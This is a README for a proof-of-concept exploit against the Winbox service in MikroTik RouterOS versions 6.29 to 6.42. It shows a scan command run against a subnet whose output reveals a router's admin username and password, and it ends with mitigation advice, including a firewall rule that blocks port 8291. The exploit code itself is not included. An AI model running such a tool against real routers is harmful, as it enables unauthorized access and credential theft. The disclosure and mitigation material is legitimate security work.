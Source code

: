 # WinboxPoC
Proof of Concept of Winbox Critical Vulnerability


## How to use
Run it :)
```
$ ./run.sh 172.17.17.0/24
172.17.17.17

User: admin
Pass: Th3P4ssWord

```
## Vulnerable versions
all versions from 6.29 (release date: 2015/28/05) to 6.42 (release date 2018/04/20) are vulnerable ..

## Mitigation Techniques
- Update your RouterOS to the last version or Bugfix version 
- Do not use Winbox and disable it :| it's nothing just a GUI for NooBs ..
- you may use some Filter Rules (ACL) to deny anonymous accesses to the Router 
```
ip firewall filter add chain=input in-interface=wan protocol=tcp dst-port=8291 action=drop
```

Enjoy!
